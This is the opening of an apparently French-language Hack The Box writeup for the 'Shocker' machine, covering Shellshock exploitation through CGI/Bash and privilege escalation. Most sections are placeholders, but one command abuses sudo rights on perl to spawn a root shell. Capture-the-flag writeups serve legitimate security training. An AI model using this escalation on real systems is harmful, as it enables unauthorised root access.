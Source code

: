 ```yaml
---
title: "Shocker.htb"
date: 2025-08-05
draft: false
showToc: true
tags: ["htb", "writeup", "shellshock", "Privilege Escalation", "Linux"]
categories: ["Mes writeups"]
cover:
  image: "image.png"
  anchor: "top" # "center", "top", "left", "TopRight" ...
summary: "Ce writeup détaille l’exploitation de la vulnérabilité Shellshock sur la machine Shocker.htb (Hack The Box) : accès initial via CGI/Bash, puis élévation de privilèges."
description: "Exploitation de la vulnérabilité Shellshock"
---
```


## Accès initial

...

## Exploitation

```bash
sudo /usr/bin/perl -e 'exec "/bin/bash";'
